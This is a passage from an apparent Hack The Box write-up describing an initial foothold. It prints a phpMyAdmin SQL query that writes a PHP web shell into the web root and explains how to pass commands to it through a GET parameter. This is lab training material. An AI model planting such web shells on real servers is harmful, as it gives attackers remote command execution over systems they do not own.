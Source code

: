     <img width="700" height="400" src="resources/images/room-6-helloworld.png">
</p>

Apart from messing around with other *Hack The Box* players (which is not a good thing to do), this has little to no
use in our task of getting into the machine but it is interesting since this kind of attack can be very powerful in
a real-world scenario.

## Initial foothold

There are multiple ways of achieving RCE on this machine, the most obvious and easy one is to use *sqlmap's os-shell* feature.
Here, I will explore other methods for the sake of it.

### Using phpmyadmin SQL console

Using the *SQL console* available in *phpmyadmin* we can create a query that looks like this:

```
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/tmkpf7.php";
```

Using a random, hard-to-guess, name will avoid other users running into your script when enumerating the box. Next, we
just need to request this file to the server, supplying the desired command as the *cmd* GET parameter:

<p align="center">